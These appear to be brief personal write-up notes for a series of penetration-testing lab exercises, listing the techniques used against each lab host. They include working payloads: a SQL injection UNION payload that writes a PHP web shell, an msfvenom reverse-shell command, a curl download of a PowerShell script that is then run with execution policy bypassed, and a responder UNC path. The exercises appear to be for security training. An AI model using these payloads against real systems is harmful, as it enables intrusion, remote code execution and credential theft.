 ### 10.3.2.4

added the ip to /etc/hosts
scanned the website using wpscan
exploited sqli using sqlmap
uploaded reverse shell using wordpress plugin
got user as www-root
flag.txt in /var/www

### 10.3.2.5

email subscribe field in home page
boolean based sqli in post request with item mail-list
write php shell to file using sql injection
mail-list=' UNION SELECT null, null, null, null,"<?php echo system($_GET['cmd']);?>", null  INTO OUTFILE "/var/www/html/web1.php" -- //
http://forestsave.lab/web1.php?cmd=cat%20../flag.txt


### 10.3.2.7
SQLi in login 
xp_cmdshell working
uploaded powershell reverse shell and got reverse connection

### 11.3.1.3

Follow the walkthrough

### 12.4.1.1

Mouseserver exploit
49601

### 12.4.1.2

CVE : CVE-2021-41773

### 12.4.1.3

all port scan using nmap 
james smtp server running use exploit 50347
change port numbers according to nmap

### 13.2.3.2

same as walkthrough of fixing web exploits
took reverse shell using bash one liner reverse shell passing in cmd param

### 13.2.3.3
directory brute force with common.txt and big.txt no results

used exploit 46481 and used any jpeg image

### 13.2.3.4

found port 20000
enumerated port further with nmap -A and nmap -sV
easy chat server running 
tried with application locally
only changed payload with stageless reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.217 LPORT=1990 -f python -b "\x00\x20" -v shellcode
fire

### 14.3.3.2

used shellter as mentioned in walkthrough

### 14.3.3.4

created a bat file to download powershell script and then execute it
since the script is in 32 bit, faced problem in executing because powershell cmd spawns 64 bit so used following
curl http://192.168.1.11:9090/exec.ps1 -o exec.ps1
%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -exec bypass .\exec.ps1
![[exec.ps1]]

### 15.3.3

same as given in walkthrough
use unc path for file upload after setting up responder
//192.168.45.230/share/ack1.php
